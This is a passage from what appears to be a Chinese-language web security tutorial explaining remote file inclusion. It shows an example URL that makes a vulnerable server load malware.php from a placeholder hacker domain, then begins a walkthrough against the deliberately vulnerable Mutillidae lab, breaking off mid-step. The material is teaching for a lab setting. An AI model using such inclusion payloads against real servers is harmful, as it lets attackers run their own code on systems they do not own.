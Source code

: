看！我刚刚利用了这个漏洞。现在，试试自己操作吧。

# 远程文件包含

**远程文件包含**（**RFI**）是通过在 URL 中包含一个指向远程文件的文件路径来利用的，这个文件路径指向托管 Web 应用程序的 Web 服务器之外的远程文件。

考虑以下示例：

```
http://domain_name/index.php?file=http://hacker_domain/malware.php
```

在前面的 URL 中，受害者服务器将加载位于黑客服务器上的`malware.php`页面。让我们通过使用 Mutillidae 来看一个实际示例：

1.  浏览到 Mutillidae 首页并选择 OWASP 2017。我们将选择之前用于本地文件包含的相同菜单，即，**破损访问控制** | **不安全的直接对象引用** | **任意文件包含**。

1.  所以，这是我们之前测试过的本地文件包含页面，但现在，我们将看看能否包含一个远程文件。在利用这个漏洞之前，我们需要先在服务器级别进行一些更改。此页面为您提供了更改服务器配置文件的帮助。我将登录到 Web 服务器并更改`C:\xampp\php\`下的`php.ini`文件（如果你使用 Linux 托管 Mutillidae，你的路径会有所不同）：

![](img/272546aa-e68a-4963-b07a-7de690a06c43.png)
